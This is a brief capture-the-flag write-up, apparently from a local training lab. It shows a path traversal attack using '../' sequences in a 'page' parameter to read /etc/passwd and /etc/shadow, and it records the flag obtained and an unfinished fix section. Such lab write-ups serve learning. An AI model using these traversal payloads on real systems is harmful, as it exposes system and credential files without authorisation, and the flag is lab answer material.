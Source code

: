 # Path Traversal

## Link: http://192.168.64.3/?page=../../../../../../../etc/passwd

- Go to this page https://owasp.org/www-community/attacks/Path_Traversal
- Try http://192.168.64.3/?page=/etc/shadow
- Next http://192.168.64.3/?page=../etc/shadow
- Etc...
- Now Try http://192.168.64.3/?page=/etc/passwd
- Next http://192.168.64.3/?page=../etc/passwd
- Etc...
- Result:

```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

flag: `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

## How to fix

- Prefer working without user input when using file system calls
- 
